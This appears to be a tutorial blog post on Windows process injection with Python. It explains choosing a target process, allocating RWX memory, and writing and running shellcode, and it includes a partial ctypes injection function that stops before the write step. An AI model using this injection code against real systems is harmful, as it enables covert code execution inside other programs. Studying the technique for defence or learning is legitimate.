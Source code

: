 <figure>
<img src="https://raw.githubusercontent.com/mncmb/mncmb.github.io/_posts/Basic-windows-shellcode-injection-with-python/process_injection_overview.png" alt="four steps of process injection">
<figcaption>Process injection overview</figcaption>
</figure>

### choosing a process
In step __1.__ a suitable process is picked. The process needs to run in the same or a lower __integrity level__ as the process that performs the injection. The injecting process needs adequate permissions, in the form of its integrity level, to be able to touch and modify another process' address space. Because of this reason, you will not be able to inject into `lsass.exe` (which runs with system integrity) from a low priv shell, but won't have trouble with something like `notepad.exe`.

Additionally, the code performing the injection needs to acquire a handle to the process, since Windows deals with references to objects like files or processes through handles. If you see a windows data type with a preceding `h`, this denotes a handle to an object. Handles are essentially pointer abstractions that allow the operating system to change the referenced memory location without affecting the process.

### allocating memory
While you probably could write to some arbitrary section of a process as long as it has read-write-execute (RWX) permissions or you change the permissions to include WRITE via VirtualProtectEx, this would likely result in a crash of the process if it isn't halted (paused). 
So in order to perform code injection the general approach is to allocate a new memory page where the injected code will be written to (step __2.__).

### writing & executing the code
Writing code to a process is done via the `WriteProcessMemory` function, among other optionss. It allows to copy the contents of a buffer to the "remote" or "external" process. 

As for getting the instruction pointer directed at the injected code, this can be achieved with the `CreateRemoteThread` function.

## putting it all together
With added logging output, comments and basic error handling you get the following. If you can live without that, you are looking at 7 lines of code, including redefinitions necessary for ctypes & 64bit code.

```py
def injectCode(pid, shellcode):

    # obtain a handle to the process that gets injected into
    h_process = kernel32.OpenProcess(PROCESS_ALL_ACCESS, False, int(pid))
    logging.info(f"The value of the process handle h_process: {hex(h_process)}")
    if not h_process:
        logging.error(f"Couldn't acquire handle for PID: {pid} ")
        sys.exit(1)

    # allocate memory
    # return type of ctypes function has to be redefined, so it returns 64 bit values
    kernel32.VirtualAllocEx.restype=c_void_p  # c_ulonglong
    arg_address = kernel32.VirtualAllocEx(h_process, 0, len(shellcode), VIRTUAL_MEM, PAGE_EXECUTE_READWRITE)

    # print address of the newly allocated page
    logging.info(f"The start value of the newly allocated page arg_address: {hex(arg_address)}")

    # the argument types also have to be redefied, so that they can deal with the 64bit value arg_address 
    kernel32.WriteProcessMemory.argtypes = [c_void_p, c_void_p, c_void_p, c_size_t, c_size_t]
    kernel32.CreateRemoteThread.argtypes = [c_void_p, c_void_p, c_size_t, c_void_p, c_void_p, c_size_t, c_void_p]

    # write the shellcode to the new allocated memory
```